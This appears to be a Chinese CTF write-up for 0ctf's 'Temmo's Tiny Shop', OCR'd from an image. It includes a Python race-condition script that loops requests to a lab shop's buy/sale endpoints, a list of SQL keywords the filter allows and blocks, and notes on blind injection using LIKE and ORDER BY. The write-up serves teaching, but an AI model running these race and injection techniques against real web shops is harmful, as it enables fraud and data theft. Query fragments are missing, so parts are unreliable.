 ```
part2
#_*_coding:utf-8_*_
import requests
import time
import threading

#拼接url
host = "http://10.114.2.201:10002"
url = '/app.php?action=login'
url1 = host + "/app.php?action=buy&id=6"
url2 = host + "/app.php?action=sale&id=6"
#headers1={'PHPSESSID':'vqntjrojppnerbc1l8jc5pl6p5'}
headers2={'PHPSESSID':'vqntjrojppnerbc1l8jc5pl6p6'}

#s1=requests.session()
s2=requests.session()
login_para={'action':'login'}
parm_data={'username':'doge','pwd':'doge'}

#s1.post(url=host+url,data=parm_data,headers=headers1)
s2.post(url=host+url,data=parm_data,headers=headers2)
while True:
    a = s2.get(url=url2,headers=headers2).content
    print(a)
```

## **0ctf Temmo’s Tiny Shop part2**

然后hint提示了下一步怎么办，果真存在注入来着，这里学习到了新的知识…过滤了非常的多的东西…然后直接上了代码就明白了嗯，其实主要是鸡哥好用的点

```
可用：
(xxx) , select as procedure limit asc desc distinct having like (sqlattempt2) & mid substr ascii exists from if

不可用
' or and 空格 union sleep || %0a binary /**/ <> = extractvalue floor updatexml
```

所以说fuzz很重要。

然后利用到了一个很有趣的东西。比如说
当我们=和<>被过滤了怎么办？？？用like

```
 1 row in set (0.00 sec)

1 row in set (0.00 sec)
```

第二呢，发现了order by的排序方法

```
 | 2    | guest | flag{flag_is_not_here} |
| 1    | admin | flag{flag_is_here}     |
+------+-------+------------------------+
2 rows in set (0.00 sec) 

| 1    | admin | flag{flag_is_here}     |

2 rows in set (0.00 sec)
```
